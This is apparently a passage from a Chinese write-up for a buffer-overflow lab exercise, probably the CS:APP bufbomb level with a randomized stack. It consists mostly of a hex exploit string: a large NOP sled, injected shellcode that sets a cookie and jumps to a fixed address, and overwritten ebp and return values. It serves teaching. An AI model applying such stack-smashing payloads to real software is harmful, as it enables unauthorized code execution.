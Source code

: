 五次，每次栈地址都不一样，，但是栈还是固定的，除了需要填充的字符非常多，还是用原来的方法直接解决

exp:

```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90  90
b8 ef 9a 4c 62 		//mov eax,0x624c9aef
68 3a 8e 04 08		//push 0x08048e3a
c3 90  						//ret指令
10 31 68 55				//ebp
c0 30 68 55				//返回任意一个`\x90`
0a

90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
```
